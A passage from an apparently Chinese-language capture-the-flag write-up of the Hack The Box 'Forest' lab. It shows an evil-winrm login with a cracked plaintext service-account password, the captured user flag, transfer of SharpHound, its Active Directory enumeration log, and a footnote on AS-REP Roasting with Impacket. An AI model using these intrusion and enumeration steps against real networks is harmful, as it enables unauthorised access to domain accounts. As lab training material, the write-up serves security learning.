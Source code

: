 > `evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`

```shell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> type user.txt
NDRlOTU3NWRlZGY3NWVhNWIxMTc0YzRlYTkxZTk3OTQ=
```

***get user flag!***

利用`python_http.server`传一个`SharpHound.exe`[^5]

```powershell
2024-07-17T23:49:03.8056462-07:00|INFORMATION|This version of SharpHound is compatible with the 5.0.0 Release of BloodHound
2024-07-17T23:49:03.8993962-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, UserRights, CARegistry, DCRegistry, CertServices
2024-07-17T23:49:03.9150186-07:00|INFORMATION|Initializing SharpHound at 11:49 PM on 7/17/2024
2024-07-17T23:49:04.0243957-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for htb.local : FOREST.htb.local
2024-07-17T23:49:04.1338112-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, UserRights, CARegistry, DCRegistry, CertServices
2024-07-17T23:49:04.4150230-07:00|INFORMATION|Beginning LDAP search for htb.local
2024-07-17T23:49:04.4150230-07:00|INFORMATION|Testing ldap connection to htb.local
2024-07-17T23:49:04.4775237-07:00|INFORMATION|Beginning LDAP search for htb.local Configuration NC
2024-07-17T23:49:34.9775839-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 37 MB RAM
2024-07-17T23:49:49.5401184-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-07-17T23:49:49.5401184-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-07-17T23:49:49.7588655-07:00|WARNING|[CommonLib LDAPUtils]Exception in LDAP loop for (objectclass=*) and HTB.LOCAL
System.DirectoryServices.Protocols.DirectoryOperationException: The object does not exist.
   at System.DirectoryServices.Protocols.LdapConnection.ConstructResponse(Int32 messageId, LdapOperation operation, ResultAll resultType, TimeSpan requestTimeOut, Boolean exceptionOnTimeOut)
   at System.DirectoryServices.Protocols.LdapConnection.SendRequest(DirectoryRequest request, TimeSpan requestTimeout)
   at SharpHoundCommonLib.LDAPUtils.<QueryLDAP>d__40.MoveNext()
2024-07-17T23:49:49.7588655-07:00|WARNING|[CommonLib LDAPUtils]Exception in LDAP loop for (objectclass=*) and HTB.LOCAL
System.DirectoryServices.Protocols.DirectoryOperationException: The object does not exist.
   at System.DirectoryServices.Protocols.LdapConnection.ConstructResponse(Int32 messageId, LdapOperation operation, ResultAll resultType, TimeSpan requestTimeOut, Boolean exceptionOnTimeOut)
   at System.DirectoryServices.Protocols.LdapConnection.SendRequest(DirectoryRequest request, TimeSpan requestTimeout)
   at SharpHoundCommonLib.LDAPUtils.<QueryLDAP>d__40.MoveNext()
2024-07-17T23:49:49.7588655-07:00|ERROR|[CommonLib DCRegProc]Error getting data from registry for FOREST.HTB.LOCAL: SYSTEM\CurrentControlSet\Control\SecurityProviders\Schannel:CertificateMappingMethods
System.Security.SecurityException: Requested registry access is not allowed.
   at System.ThrowHelper.ThrowSecurityException(ExceptionResource resource)
   at Microsoft.Win32.RegistryKey.OpenSubKey(String name, Boolean writable)
   at SharpHoundCommonLib.SHRegistryKey.GetValue(String subkey, String name)
   at SharpHoundCommonLib.Helpers.GetRegistryKeyData(String target, String subkey, String subvalue, ILogger log)
The Zone of the assembly that failed was:
MyComputer
2024-07-17T23:49:49.7588655-07:00|WARNING|[CommonLib LDAPUtils]Exception in LDAP loop for (objectclass=*) and HTB.LOCAL
System.DirectoryServices.Protocols.DirectoryOperationException: The object does not exist.
   at System.DirectoryServices.Protocols.LdapConnection.ConstructResponse(Int32 messageId, LdapOperation operation, ResultAll resultType, TimeSpan requestTimeOut, Boolean exceptionOnTimeOut)
   at System.DirectoryServices.Protocols.LdapConnection.SendRequest(DirectoryRequest request, TimeSpan requestTimeout)
   at SharpHoundCommonLib.LDAPUtils.<QueryLDAP>d__40.MoveNext()
```

[^3]: 对于未启用预身份验证的用户帐户（基本上禁用了 Kerberos 预身份验证），它容易受到 AS-REP Roasting 攻击。我们可以在不提供任何身份验证的情况下请求该用户的 Kerberos TGT 票证，并且我们将取回的 TGT 票证将使用该帐户的密码进行加密。所以我们可以离线破解哈希值。使用Impacket的GetNPUsers.py脚本，我们可以进行攻击
[^5]: https://github.com/BloodHoundAD/SharpHound/releases/tag/v2.4.1